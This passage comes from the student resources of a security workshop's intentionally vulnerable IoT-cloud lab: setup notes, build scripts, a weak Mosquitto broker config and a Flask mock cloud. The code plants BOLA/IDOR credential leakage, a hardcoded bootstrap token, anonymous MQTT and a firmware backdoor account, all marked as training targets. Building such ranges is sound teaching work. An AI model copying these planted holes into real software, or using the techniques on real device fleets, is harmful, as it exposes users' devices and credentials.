  | + debug   |  server-TLS 8443    |  provisioning, BOLA, mTLS   |
  |   agent   |-------------------->|         data plane          |
  +-----------+                     +--------------+--------------+
        |  MQTT 8883                                | routes/creds
        v                                           v
  +------------------- broker (Mosquitto, weak ACLs) -------------------+
        ^                         ^                         ^
   instructor-pod            fleet devices            your stolen creds
   (PLAYSOUND target)     (other tenants' data)
```

## Platform support

**One setup, every laptop:** VMware + a single Ubuntu Desktop guest + Docker (and Burp CE) inside it. The workflow is identical across hosts; the *only* per-machine choice is the guest architecture, which follows the **laptop's CPU**, not its OS.

| Laptop | VMware product | Ubuntu Desktop guest | Burp CE installer |
|--------|----------------|----------------------|-------------------|
| Windows (Intel/AMD) | Workstation Pro | amd64 | Linux (x64) |
| Linux (Intel/AMD) | Workstation Pro | amd64 | Linux (x64) |
| Intel Mac | Fusion | amd64 | Linux (x64) |
| Apple Silicon (M1–M4) | Fusion | **arm64** | **Linux (ARM)** |

Rule of thumb: **amd64 unless you're on an Apple-Silicon Mac, then arm64.**

Everything inside the guest is architecture-matched and verified to exist on both:
* Docker images are multi-arch — `python:3.12-slim` and `eclipse-mosquitto:2` (amd64 + arm64v8);
  no `platform:` is pinned, so Docker builds for the guest's arch. All Python deps are pure-Python
  (no native wheels to compile).
* Burp Suite **Community** ships native **Linux (x64)** and **Linux (ARM)** installers from the
  same download; CE is free and the labs only need its Proxy + Repeater. Use the **native
  installer**, not the bare JAR or a third-party "loader" — on arm64 those bundle x86 native
  components and crash the ARM JVM.
* Apt tools (mosquitto-clients, binwalk, openssl, squashfs-tools) are in the Ubuntu repos for both.

**Why a guest VM rather than Docker Desktop on the bare laptop?** Isolation — you're running
intentionally-vulnerable services *and* attack tools, so keep them in a disposable VM behind NAT. It also dodges Docker Desktop's corporate-license friction and lets you pre-build/export the VM for offline use (assume no WiFi). Docker inside a Linux guest uses containers (namespaces), **not** nested VMs — no nested-virtualization required.

**Apple Silicon note:** Fusion runs **arm64 guests only** and cannot open a pre-built amd64 VM/OVA.
Either use a pre-built arm64 image, or build from the arm64 ISO.

**Line endings:** the repo ships LF plus a `.gitattributes` forcing LF, so the in-container shell scripts run even if the repo passes through a Windows host on the way into the guest. If you ever see `bad interpreter: /bin/bash^M`, run `dos2unix` on the `*.sh` files.

## Repository layout

```
build-scripts/
├── docker-compose.yml         lab service stack (cloud, broker, iot-device, instructor-device)
├── Makefile                   up / down / reset / logs shortcuts
├── cloud/                     mock cloud REST API + mTLS data plane (Flask)   [VULN: BOLA, shared token]
├── broker/                    Mosquitto config + weak ACLs + password gen
├── iot-device/                simulated device, sim secure enclave, debug-agent foothold
├── instructor-device/         PLAYSOUND target pod + fleet telemetry publishers
├── tools/                     student tooling: rest_fuzz, mqtt_recon, mqtt_fuzz, foothold
├── firmware/                  builds a binwalk-able squashfs blob with planted secrets (lab 01)
├── zephyr-storage/            Zephyr NVS image generator + parser (lab 03 demo, lecture §9)
├── scripts/                   gen_certs, check_env, bootstrap_lab_vm
└── automation/                Packer vmware-iso template — amd64 (Workstation) + arm64 (Fusion)

documentation/
├── labguide/                  per-exercise student walkthroughs + VMware/networking guide
├── INSTRUCTOR/                ANSWER_KEY.md + FLAGS.md (solutions; rotate flags before public use)
├── lecture.md                 slide-deck companion notes
└── quickstart.md              student first-run guide
```

## Exercises

| Lab | Topic | Key vuln |
|-----|-------|----------|
| 00 | Setup & orientation | — |
| 01 | Firmware recon | hardcoded token in firmware |
| 02 | Burp interception | `verify=False` TLS bypass |
| 03 | mTLS identity | enclave capability reuse / Zephyr NVS key in flash |
| 04 | REST API fuzzing | BOLA/IDOR + excessive data exposure |
| 05 | MQTT fuzzing | wildcard topic ACLs |
| 06 | Lateral movement | writable `devices/+/cmd` |

## Troubleshooting

* **Burp sees nothing in Lab 02 part 1** — that's correct; the device validates its CA. Run the
  `push-ca` foothold step.
* **`curl` mTLS fails with "could not load PEM client certificate"** — use **absolute paths** for
  `--cert`/`--key` (a curl/OpenSSL quirk with relative paths).
* **Client certs missing under `certs/`** — the cloud mints them at startup into the shared
  volume; `docker compose logs cloud` should show provisioning. `make reset` for a clean slate.
* **Broker auth fails** — the password file is generated at broker start from `cloud/data.py`'s
  seeded creds; if you change creds in one place, change both, then `make reset`.
* **mksquashfs missing** — `apt install squashfs-tools` (the firmware script falls back to
  cpio.gz otherwise).
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/Makefile`

```makefile
# Convenience targets for the lab. Run from the build-scripts/ directory.
.PHONY: up down attacker certs firmware nvs logs clean reset check

up:            ## build + start the core range
	docker compose up --build -d
	@echo "Range up. Cloud:8443/9443  Broker:8883  Device-foothold:7000"

attacker:      ## start the optional containerized attacker box
	docker compose --profile attacker up -d attacker
	@echo "Attacker box: docker compose exec attacker bash"

down:          ## stop containers
	docker compose down

reset:         ## stop + wipe volumes (fresh certs/control state)
	docker compose down -v

logs:          ## tail all logs
	docker compose logs -f

certs:         ## (re)generate certs locally (outside docker)
	bash scripts/gen_certs.sh ./certs

firmware:      ## build the recon firmware blob locally
	bash firmware/build_firmware.sh firmware/firmware.bin

nvs:           ## build the Zephyr NVS demo blob locally
	python3 zephyr-storage/make_nvs_blob.py zephyr-storage/nvs_partition.bin

check:         ## verify host prerequisites
	bash scripts/check_env.sh

clean:         ## remove locally generated artifacts
	rm -f firmware/firmware.bin zephyr-storage/nvs_partition.bin loot.json
	rm -f certs/client-* certs/ca.srl
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/attacker/Dockerfile`

```dockerfile
FROM python:3.12-slim
RUN apt-get update && apt-get install -y --no-install-recommends \
    mosquitto-clients curl && rm -rf /var/lib/apt/lists/*
RUN pip install --no-cache-dir requests paho-mqtt urllib3
CMD ["sleep", "infinity"]
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/automation/README.md`

````markdown
# Automated VM build — Packer (amd64 + arm64)

Builds a lab-ready Ubuntu 26.04 Desktop VM using `packer` + `vmware-iso`. The same template
supports both architectures via separate pkrvars files.

| Host | Pkrvars file | OVA to distribute |
|------|--------------|-------------------|
| Windows + VMware Workstation | `amd64-workstation.pkrvars.hcl` | `defcon34-iot-lab-amd64.ova` |
| Apple Silicon Mac + VMware Fusion | `arm64-fusion.pkrvars.hcl` | `defcon34-iot-lab-arm64.ova` |
| Intel Mac + VMware Fusion | `amd64-workstation.pkrvars.hcl` (same ISO/subnet as Workstation — verify NAT IP) | `defcon34-iot-lab-amd64.ova` |

## Prerequisites

- VMware Workstation Pro (Windows) or VMware Fusion (macOS)
- [Packer ≥ 1.10](https://developer.hashicorp.com/packer/install)
- The VMware plugin (installed by `packer init`)

## Step 1 — create the lab-content tarball

Run once per repo change. From the **repo root** (`edge-to-cloud-pwn/`):

```bash
# amd64 build (from WSL2 or Linux)
tar -czf build-scripts/automation/packer/http-amd64/lab-content.tar.gz \
  --exclude='.git' \
  --exclude='build-scripts/automation/packer/output-*' \
  --exclude='build-scripts/automation/packer/packer_cache' \
  -C . .

# amd64 build (from Windows cmd)
tar -czf build-scripts/automation/packer/http-amd64/lab-content.tar.gz ^
  --exclude=.git ^
  --exclude=build-scripts/automation/packer/output-* ^
  --exclude=build-scripts/automation/packer/packer_cache ^
  -C . .

# arm64 build (same command, different output dir)
tar -czf build-scripts/automation/packer/http-arm64/lab-content.tar.gz \
  --exclude='.git' \
  --exclude='build-scripts/automation/packer/output-*' \
  --exclude='build-scripts/automation/packer/packer_cache' \
  -C . .
```

## Step 2 — (re)generate the CIDATA seed ISO

The autoinstall config (`user-data` + `meta-data`) is delivered to the installer as a small
ISO labelled `CIDATA`, attached as a second CD-ROM. **Regenerate it whenever you change
`user-data` or `meta-data`** — otherwise the guest boots the old config. Requires `xorriso`
(`sudo apt-get install xorriso` on WSL2/Linux; `brew install xorriso` on macOS).

```bash
# amd64 (from WSL2) — output path must match sata0:2.fileName in amd64-workstation.pkrvars.hcl
xorriso -as mkisofs -output /mnt/c/packer-lab/cidata-amd64.iso \
  -volid CIDATA -joliet -rock build-scripts/automation/packer/http-amd64

# arm64 (on the Mac) — output path must match sata0:2.fileName in arm64-fusion.pkrvars.hcl
xorriso -as mkisofs -output /path/to/cidata-arm64.iso \
  -volid CIDATA -joliet -rock build-scripts/automation/packer/http-arm64
```

The volume label **must** be `CIDATA` — that's how Ubuntu's installer auto-detects the seed.

## Step 3 — verify the NAT subnet (arm64 only)

Open **VMware Fusion > Settings > Network**, select vmnet8 (NAT), and confirm the subnet.
If it is not `192.168.64.0/24`, update three places before building:

- `arm64-fusion.pkrvars.hcl` — `http_bind_address` and `ssh_host`
- `http-arm64/user-data` — the static IP, gateway, and DNS under `network:`

## Step 4 — build

```bash
cd build-scripts/automation/packer
packer init .

# amd64 (run from WSL2 on Windows, staging files already at C:\packer-lab\):
packer build -var-file=amd64-workstation.pkrvars.hcl .

# arm64 (run on the Mac mini):
packer build -var-file=arm64-fusion.pkrvars.hcl .
```

Output VM lands in `output-ubuntu/` (amd64) or `output-ubuntu/` (arm64 — same dir name, different machine).

## Step 5 — export to OVA

The `--extraConfig:ulm.disableMitigations=TRUE` flag carries the CPU side-channel-mitigation
setting from the `.vmx` into the OVF descriptor. Without it, `ovftool` strips VMware-specific
extraConfig keys on export, and the imported VM reverts to mitigations **on** (slower). After
importing, confirm the key survived by checking the imported `.vmx` — VMware occasionally filters
extraConfig keys on import.

```bash
# amd64 (from WSL2)
"/mnt/c/Program Files (x86)/VMware/VMware Workstation/OVFTool/ovftool.exe" \
  --extraConfig:ulm.disableMitigations=TRUE \
  'C:\packer-lab\automation\packer\output-ubuntu\defcon34-iot-lab.vmx' \
  'C:\packer-lab\defcon34-iot-lab-amd64.ova'

# arm64 (on the Mac)
/Applications/VMware\ Fusion.app/Contents/Library/VMware\ OVF\ Tool/ovftool \
  --extraConfig:ulm.disableMitigations=TRUE \
  output-ubuntu/defcon34-iot-lab-arm64.vmx \
  defcon34-iot-lab-arm64.ova
```

## File layout

```
automation/
├── README.md                          (this file)
└── packer/
    ├── ubuntu-vmware.pkr.hcl          (shared builder template)
    ├── amd64-workstation.pkrvars.hcl  (vars for Windows/Workstation or Intel Mac/Fusion)
    ├── arm64-fusion.pkrvars.hcl       (vars for Apple Silicon Mac/Fusion — fill in ISO checksum)
    ├── http-amd64/
    │   ├── user-data                  (autoinstall seed — static IP 192.168.84.100)
    │   ├── meta-data                  (empty, required by nocloud datasource)
    │   └── lab-content.tar.gz         (generated by Step 1 above — not in git)
    └── http-arm64/
        ├── user-data                  (autoinstall seed — static IP 192.168.64.100)
        ├── meta-data                  (empty)
        └── lab-content.tar.gz         (generated by Step 1 above — not in git)
```
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/broker/config/mosquitto.conf`

```ini
# Mosquitto config -- DEF CON 34 workshop lab broker
# INTENTIONALLY WEAK. Training target only.

per_listener_settings true

# Plaintext listener (used only to show how bad "no TLS" is; off by default in compose)
listener 1883 0.0.0.0
allow_anonymous true
# VULN: anonymous access enabled on the plaintext listener

# TLS listener -- this is what devices actually use
listener 8883 0.0.0.0
cafile   /mqtt/certs/ca.crt
certfile /mqtt/certs/cloud.crt
keyfile  /mqtt/certs/cloud.key
# Server-side TLS only (no require_certificate) -- devices authenticate with username/password,
# which is exactly the credential a student lifts via REST BOLA and then replays here.
require_certificate false
allow_anonymous false
password_file /mosquitto/config/passwordfile
acl_file /mosquitto/config/aclfile

log_dest stdout
log_type all
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/broker/make_passwords.sh`

```bash
#!/usr/bin/env sh
# Generates the Mosquitto password file from the seeded fleet creds.
# Run by docker-compose broker entrypoint (or manually). Requires mosquitto_passwd.
set -e
PWFILE="${1:-/mosquitto/config/passwordfile}"

# user:password pairs MUST match cloud/data.py seed
set -- \
  "dev-stu-9000:p_student_iot_0" \
  "dev-1001:p_aurora_88" \
  "dev-1002:p_borealis_19" \
  "dev-2007:p_cygnus_42" \
  "instructor:ins_demo_pw"

rm -f "$PWFILE"
for pair in "$@"; do
  user="${pair%%:*}"; pass="${pair#*:}"
  if [ -f "$PWFILE" ]; then
    mosquitto_passwd -b "$PWFILE" "$user" "$pass"
  else
    mosquitto_passwd -c -b "$PWFILE" "$user" "$pass"
  fi
done
chown root:mosquitto "$PWFILE" 2>/dev/null || true
chmod 0640 "$PWFILE" 2>/dev/null || true
echo "[broker] wrote $PWFILE"
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/certs/README.txt`

```text
certs are generated by build-scripts/scripts/gen_certs.sh or the init-certs compose service
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/cloud/Dockerfile`

```dockerfile
FROM python:3.12-slim
RUN apt-get update && apt-get install -y --no-install-recommends openssl && rm -rf /var/lib/apt/lists/*
WORKDIR /app
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt
COPY app.py data.py ./
EXPOSE 8443 9443
CMD ["python", "app.py"]
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/cloud/app.py`

```python
#!/usr/bin/env python3
"""
Mock IoT Cloud Platform  --  DEF CON 34 Workshop "Attacking Cloud APIs from the IoT Edge"

INTENTIONALLY VULNERABLE. Training target only. Do not deploy on a reachable network.

Two listeners:
  * 0.0.0.0:8443  -- server-TLS only (CA-verifiable). Provisioning + device API.
                     VULN: Broken Object Level Authorization (BOLA/IDOR) on /v1/devices/<id>
                     VULN: a single shared bootstrap token (recoverable from firmware)
  * 0.0.0.0:9443  -- mutual-TLS required. "Sensitive" data plane.
                     Cannot be MITM'd with Burp unless the attacker presents a valid client
                     cert+key (the motivation for the key-extraction exercise).

The bridge between the REST creds it hands out and the MQTT broker is the whole point:
provisioning returns the MQTT username/password + the device's mTLS cert/key, and BOLA lets a
student pull *other* devices' creds, then impersonate them on the broker.
"""
import json
import os
import ssl
import threading

from flask import Flask, request, jsonify, abort

from data import DEVICES, BOOTSTRAP_TOKEN, find_by_api_key, provision_device

CERT_DIR = os.environ.get("CERT_DIR", "/certs")
MQTT_HOST = os.environ.get("MQTT_HOST", "broker")
MQTT_PORT = int(os.environ.get("MQTT_PORT", "8883"))

app = Flask(__name__)


def _require_api_key():
    """
    'Authentication' such as it is. We check that the caller presents *some* valid provisioned
    API key -- but we never check that the key belongs to the device being requested. That gap
    is the BOLA vulnerability students exploit in lab 04.
    """
    key = request.headers.get("X-Api-Key", "")
    dev = find_by_api_key(key)
    if not dev:
        abort(401, description="missing or invalid X-Api-Key")
    return dev


@app.get("/")
def root():
    return jsonify(
        service="acme-iot-cloud",
        version="3.4.0",
        endpoints=["/v1/provision", "/v1/devices/<device_id>", "/v1/devices", "/healthz"],
    )


@app.get("/healthz")
def healthz():
    return jsonify(ok=True)


@app.post("/v1/provision")
def provision():
    """
    Just-in-time provisioning. A factory-fresh device presents the shared bootstrap token
    (hardcoded in firmware -> recoverable) and a serial, and receives a full identity:
    api_key, MQTT creds, topic prefix, and its mTLS client cert/key.
    """
    body = request.get_json(force=True, silent=True) or {}
    token = body.get("bootstrap_token", "")
    serial = body.get("serial", "")
    if token != BOOTSTRAP_TOKEN:
        abort(403, description="bad bootstrap token")
    if not serial:
        abort(400, description="serial required")
    dev = provision_device(serial, CERT_DIR)
    return jsonify(_identity_doc(dev))


@app.get("/v1/devices/<device_id>")
def get_device(device_id):
    """
    VULN (BOLA/IDOR): any valid API key can read ANY device id, including its MQTT creds and
    mTLS material. Enumerate device ids to harvest the whole fleet's credentials.
    """
    _require_api_key()  # any key will do -- that's the bug
    dev = DEVICES.get(device_id)
    if not dev:
        abort(404, description="no such device")
    return jsonify(_identity_doc(dev, include_secrets=True))


@app.get("/v1/devices")
def list_devices():
    """
    VULN (excessive data exposure / BFLA): no admin scoping. Returns the fleet roster.
    Some deployments 'hide' this by obscurity (not linked in the app) -- find it by enumeration.
    """
    _require_api_key()
    return jsonify(devices=[{"device_id": d["device_id"], "serial": d["serial"],
                             "tenant": d["tenant"]} for d in DEVICES.values()])


def _identity_doc(dev, include_secrets=False):
    doc = {
        "device_id": dev["device_id"],
        "serial": dev["serial"],
        "tenant": dev["tenant"],
        "api_key": dev["api_key"],
        "mqtt": {
            "host": MQTT_HOST,
            "port": MQTT_PORT,
            "username": dev["mqtt_user"],
            "password": dev["mqtt_pass"],
            "topic_prefix": dev["topic_prefix"],
        },
    }
    # The mTLS material is returned on provisioning (to the device) and -- because of BOLA --
    # also leaks on the device-lookup endpoint.
    if include_secrets or True:
        doc["mtls"] = {
            "client_cert_pem": dev.get("client_cert_pem", ""),
            "client_key_pem": dev.get("client_key_pem", ""),
        }
    return doc


# --------------------------------------------------------------------------------------
# mTLS data plane (port 9443). Requiring a client cert at the TLS layer is enough: Burp can
# complete the handshake to 8443 but not to 9443 without a valid client key.
# --------------------------------------------------------------------------------------
mtls_app = Flask("mtls")


@mtls_app.get("/v1/devices/<device_id>/telemetry")
def telemetry(device_id):
    dev = DEVICES.get(device_id)
    if not dev:
        abort(404)
    return jsonify(device_id=device_id, last_seen="2026-08-09T14:00:00Z",
                   battery=83, note=dev.get("data_flag", ""))


def _ssl_context(require_client_cert):
    ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    ctx.load_cert_chain(os.path.join(CERT_DIR, "cloud.crt"),
                        os.path.join(CERT_DIR, "cloud.key"))
    if require_client_cert:
        ctx.load_verify_locations(os.path.join(CERT_DIR, "ca.crt"))
        ctx.verify_mode = ssl.CERT_REQUIRED
    return ctx


def _run(flask_app, port, require_client_cert):
    from werkzeug.serving import run_simple
    run_simple("0.0.0.0", port, flask_app, ssl_context=_ssl_context(require_client_cert),
               threaded=True, use_reloader=False)


if __name__ == "__main__":
    t = threading.Thread(target=_run, args=(mtls_app, 9443, True), daemon=True)
    t.start()
    print(f"[cloud] server-TLS API on :8443  |  mTLS data plane on :9443")
    print(f"[cloud] bootstrap_token={BOOTSTRAP_TOKEN}  (planted in firmware)")
    _run(app, 8443, False)
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/cloud/data.py`

```python
#!/usr/bin/env python3
"""
Seeded fleet + provisioning helpers for the mock cloud.

Credentials and flags here are intentionally weak/guessable -- this is a CTF range.
"""
import os
import subprocess
import uuid

# Shared bootstrap token -- gets planted into the firmware blob (see firmware/build_firmware.sh)
BOOTSTRAP_TOKEN = "acme-factory-bootstrap-7f3a"  # FLAG-worthy: recoverable via strings/binwalk

# Pre-seeded "other tenants' " devices. These exist so REST/MQTT fuzzing has something to find.
DEVICES = {}


def _seed():
    seed = [
        # device_id          serial          tenant        mqtt_user          mqtt_pass          data_flag
        ("dev-stu-9000",     "ACME-STU-9000", "tenant-stu", "dev-stu-9000",   "p_student_iot_0",  "flag{your_freshly_provisioned_device}"),
        ("dev-1001-aurora",  "ACME-AUR-1001", "tenant-a",   "dev-1001",       "p_aurora_88",      "flag{bola_telemetry_aurora}"),
        ("dev-1002-borealis","ACME-BOR-1002", "tenant-a",   "dev-1002",       "p_borealis_19",    "flag{fleet_creds_leak_borealis}"),
        ("dev-2007-cygnus",  "ACME-CYG-2007", "tenant-b",   "dev-2007",       "p_cygnus_42",      "flag{cross_tenant_cygnus}"),
        ("instructor-pod",   "ACME-INS-0001", "tenant-x",   "instructor",     "ins_demo_pw",      "flag{lateral_movement_instructor}"),
    ]
    for did, serial, tenant, user, pw, flag in seed:
        DEVICES[did] = {
            "device_id": did,
            "serial": serial,
            "tenant": tenant,
            "api_key": "ak_" + uuid.uuid5(uuid.NAMESPACE_DNS, did).hex[:24],
            "mqtt_user": user,
            "mqtt_pass": pw,
            "topic_prefix": f"devices/{did}",
            "data_flag": flag,
            "client_cert_pem": "",
            "client_key_pem": "",
        }
        _ensure_client_cert(DEVICES[did], os.environ.get("CERT_DIR", "/certs"))


def _ensure_client_cert(dev, cert_dir):
    """Generate a per-device mTLS client cert signed by the lab CA, if not already present."""
    did = dev["device_id"]
    crt = os.path.join(cert_dir, f"client-{did}.crt")
    key = os.path.join(cert_dir, f"client-{did}.key")
    ca_crt = os.path.join(cert_dir, "ca.crt")
    ca_key = os.path.join(cert_dir, "ca.key")
    if not (os.path.exists(ca_crt) and os.path.exists(ca_key)):
        return  # certs not generated yet; gen_certs.sh handles the CA
    if not (os.path.exists(crt) and os.path.exists(key)):
        try:
            serial = "0x" + uuid.uuid4().hex[:16]
            subprocess.run([
                "openssl", "req", "-newkey", "rsa:2048", "-nodes", "-keyout", key,
                "-subj", f"/CN={did}", "-out", f"{key}.csr"], check=True,
                capture_output=True)
            subprocess.run([
                "openssl", "x509", "-req", "-in", f"{key}.csr", "-CA", ca_crt, "-CAkey", ca_key,
                "-set_serial", serial, "-days", "30", "-out", crt], check=True,
                capture_output=True)
            os.remove(f"{key}.csr")
        except Exception as e:  # pragma: no cover
            print(f"[data] could not mint client cert for {did}: {e}")
            return
    try:
        dev["client_cert_pem"] = open(crt).read()
        dev["client_key_pem"] = open(key).read()
    except OSError:
        pass


def provision_device(serial, cert_dir):
    """JIT-provision a (possibly new) device by serial. Re-provisioning returns the same record."""
    for d in DEVICES.values():
        if d["serial"] == serial:
            _ensure_client_cert(d, cert_dir)
            return d
    did = "dev-" + uuid.uuid4().hex[:8]
    dev = {
        "device_id": did,
        "serial": serial,
        "tenant": "tenant-student",
        "api_key": "ak_" + uuid.uuid4().hex[:24],
        "mqtt_user": did,
        "mqtt_pass": "p_" + uuid.uuid4().hex[:10],
        "topic_prefix": f"devices/{did}",
        "data_flag": "flag{your_freshly_provisioned_device}",
        "client_cert_pem": "",
        "client_key_pem": "",
    }
    DEVICES[did] = dev
    _ensure_client_cert(dev, cert_dir)
    return dev


def find_by_api_key(key):
    if not key:
        return None
    for d in DEVICES.values():
        if d["api_key"] == key:
            return d
    return None


_seed()
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/cloud/requirements.txt`

```text
flask==3.0.3
werkzeug==3.0.3
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/docker-compose.yml`

```yaml
# DEF CON 34 Workshop -- "Attacking Cloud APIs from the IoT Edge" lab stack
# INTENTIONALLY VULNERABLE TRAINING RANGE. Run only on an isolated/host-only network.
#
#   docker compose up --build            # core range (cloud, broker, device, instructor, fleet)
#   docker compose --profile attacker up  # also start a containerized attacker box with tools
#
# Burp lives on your desktop, not in here -- see ../documentation/labguide/02-burp-interception.md.

services:
  # One-shot: generate the lab CA + cloud server cert into the shared 'certs' volume.
  init-certs:
    build: ./cloud
    volumes:
      - certs:/certs
      - ./scripts:/scripts:ro
    entrypoint: ["bash", "/scripts/gen_certs.sh", "/certs"]
    restart: "no"

  broker:
    image: eclipse-mosquitto:2
    user: root           # so the entrypoint can write the hashed password file into the config dir
    depends_on:
      init-certs:
        condition: service_completed_successfully
    volumes:
      - certs:/mqtt/certs:ro
      - ./broker/config:/mosquitto/config
      - ./broker/make_passwords.sh:/make_passwords.sh:ro
    command: >
      sh -c "sh /make_passwords.sh /mosquitto/config/passwordfile &&
             exec mosquitto -c /mosquitto/config/mosquitto.conf"
    ports:
      - "1883:1883"      # plaintext (anonymous) -- demo only
      - "8883:8883"      # TLS

  cloud:
    build: ./cloud
    depends_on:
      init-certs:
        condition: service_completed_successfully
    environment:
      CERT_DIR: /certs
      MQTT_HOST: broker
      MQTT_PORT: "8883"
    volumes:
      - certs:/certs
    ports:
      - "8443:8443"      # server-TLS REST API (provisioning, BOLA)
      - "9443:9443"      # mTLS data plane

  device:
    build: ./iot-device
    restart: on-failure
    depends_on: [cloud, broker]
    environment:
      CLOUD_HOST: cloud
      CLOUD_PORT: "8443"
      MTLS_PORT: "9443"
      CERT_DIR: /certs
      CONTROL_FILE: /lab/control.json
      NVS_BLOB: /lab/nvs_partition.bin
      AGENT_BIND: "0.0.0.0"
      DEVICE_ID: ""
    volumes:
      - certs:/certs
      - lab:/lab
      - ./zephyr-storage:/zephyr:ro
    ports:
      - "7000:7000"      # debug agent == your (assumed) RCE foothold
    # For the Burp interception lab (Burp runs in the same guest): point the cloud hostname at
    # the Docker host gateway, where your Burp listener sits on :443. Uncomment, then `up -d device`.
    # extra_hosts:
    #   - "cloud:host-gateway"

  instructor-pod:
    build: ./instructor-device
    depends_on: [broker]
    environment:
      MQTT_HOST: broker
      MQTT_PORT: "8883"
      CERT_DIR: /certs
      MQTT_USER: instructor
      MQTT_PASS: ins_demo_pw
    volumes:
      - certs:/certs
    command: ["python3", "target_device.py"]

  fleet:
    build: ./instructor-device
    depends_on: [broker]
    environment:
      MQTT_HOST: broker
      MQTT_PORT: "8883"
      CERT_DIR: /certs
    volumes:
      - certs:/certs
    command: ["python3", "fleet_sim.py"]

  # Optional containerized attacker box (python tools + mosquitto clients). Burp still runs on
  # your desktop. Start with: docker compose --profile attacker up
  attacker:
    build: ./attacker
    profiles: ["attacker"]
    depends_on: [cloud, broker]
    volumes:
      - ./tools:/tools
      - ./zephyr-storage:/zephyr
      - certs:/certs:ro
    working_dir: /tools
    command: sh -c "echo '[attacker] ready -- docker compose exec attacker bash' && sleep infinity"

volumes:
  certs:
  lab:
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/firmware/build_firmware.sh`

```bash
#!/usr/bin/env bash
# build_firmware.sh -- assemble a fake firmware image for the recon exercise (lab 01).
#
# Produces firmware.bin = [vendor header] + [squashfs(rootfs)] + [trailing config blob].
# Students run: binwalk firmware.bin ; binwalk -e firmware.bin ; strings firmware.bin | grep -i token
#
# Requires: mksquashfs (squashfs-tools). Falls back to a cpio+gzip blob if mksquashfs is absent.
set -euo pipefail
HERE="$(cd "$(dirname "$0")" && pwd)"
ROOTFS="$HERE/rootfs"
OUT="${1:-$HERE/firmware.bin}"
TMP="$(mktemp -d)"
trap 'rm -rf "$TMP"' EXIT

# A planted private-key stub (firmware also leaks a weak key, but the real mTLS key is in the
# enclave -- contrast taught in lab 03).
mkdir -p "$ROOTFS/usr/local/bin"
cat > "$ROOTFS/etc/legacy_key.pem" <<'EOF'
[REDACTED:private-key-block]
EOF
cat > "$ROOTFS/usr/local/bin/agent.sh" <<'EOF'
#!/bin/sh
# device cloud agent (stub). reads /etc/device.conf and provisions.
. /etc/device.conf
echo "provisioning ${DEVICE_MODEL} against ${CLOUD_PROVISION_URL}"
EOF
chmod +x "$ROOTFS/usr/local/bin/agent.sh"

# Vendor header (so binwalk sees something before the filesystem)
printf 'ACMEFW\x00\x01%-26s%-16s' "model=ACME-CAM-9000" "fwver=3.4.0" > "$TMP/header.bin"

if command -v mksquashfs >/dev/null 2>&1; then
  mksquashfs "$ROOTFS" "$TMP/root.sqfs" -noappend -quiet
  FS="$TMP/root.sqfs"
else
  echo "[!] mksquashfs not found; using cpio.gz fallback (binwalk still carves it)"
  ( cd "$ROOTFS" && find . | cpio -o -H newc 2>/dev/null | gzip -9 ) > "$TMP/root.cpio.gz"
  FS="$TMP/root.cpio.gz"
fi

# Trailing config blob (plain strings, easy win)
cat > "$TMP/trailer.txt" <<'EOF'
### factory provisioning record ###
bootstrap_token=acme-factory-bootstrap-7f3a
default_cloud=https://cloud:8443
mqtt=broker:8883
EOF

cat "$TMP/header.bin" "$FS" "$TMP/trailer.txt" > "$OUT"
echo "[+] wrote $OUT ($(wc -c < "$OUT") bytes)"
echo "    try: binwalk '$OUT' ; strings '$OUT' | grep -iE 'token|bootstrap|https'"
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/firmware/rootfs/etc/device.conf`

```ini
# /etc/device.conf  (shipped in firmware -- recon target for lab 01)
DEVICE_MODEL="ACME-CAM-9000"
FIRMWARE_VERSION="3.4.0"
CLOUD_PROVISION_URL="https://cloud:8443/v1/provision"
MQTT_HOST="broker"
MQTT_PORT="8883"
# VULN: shared factory bootstrap token baked into every unit
BOOTSTRAP_TOKEN="acme-factory-bootstrap-7f3a"
# VULN: a debug backdoor account left enabled in production builds
DEBUG_USER="acme-svc"
DEBUG_PASS="Sup3rSecretFactory!"
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/firmware/rootfs/usr/local/bin/agent.sh`

```bash
#!/bin/sh
# device cloud agent (stub). reads /etc/device.conf and provisions.
. /etc/device.conf
echo "provisioning ${DEVICE_MODEL} against ${CLOUD_PROVISION_URL}"
```

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/build-scripts/instructor-device/Dockerfile`

```dockerfile
